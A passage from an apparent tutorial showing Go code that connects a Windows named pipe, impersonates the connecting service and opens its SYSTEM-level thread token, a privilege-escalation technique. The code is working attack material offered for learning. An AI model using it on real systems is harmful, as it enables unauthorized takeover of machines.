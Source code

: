 Now we connect to our named pipe and wait until someone connects, in this case it will be the previously mentioned service.

```go
// Connect to named pipe
_, _, err = ConnectNamedPipe.Call(
  uintptr(pipe_handle),
  uintptr(unsafe.Pointer(nil)),
)

if err != syscall.Errno(0) { // Handle error
  log.Fatalf("error connecting to named pipe: %s\n", err)
}

// Read from pipe
var done uint32
err = syscall.ReadFile(syscall.Handle(pipe_handle), []byte{255}, &done, nil)
if err != nil { // Handle error
  log.Fatalf("error reading from pipe: %s\n", err)
}
```

As I explained above we should impersonate the client who connected to our pipe

```go
// Impersonate client
_, _, err = ImpersonateNamedPipeClient.Call(
  uintptr(pipe_handle),
)

if err != syscall.Errno(0) { // Handle error
  log.Fatalf("error connecting to pipe: %s\n", err)
}
```

Then we get our impersonated token by calling OpenThreadToken() and passing to it our current thread which is under SYSTEM context.

```go
// Get current thread. Call GetCurrentThread
thread_handle, _, err := GetCurrentThread.Call()
if err != syscall.Errno(0) { // Handle error
  log.Fatalf("GetCurrentThread failed: %s\n", err)
}


// Get token from current thread. Call OpenThreadToken
var token_handle uintptr
_, _, err = OpenThreadToken.Call(
  uintptr(syscall.Handle(thread_handle)),
  uintptr(uint32(windows.TOKEN_ALL_ACCESS)),
  uintptr(uint32(0)),
  uintptr(unsafe.Pointer(&token_handle)),
)

if err != syscall.Errno(0) { // Handle error
  log.Fatalf("OpenThreadToken failed: %s\n", err)
}
```
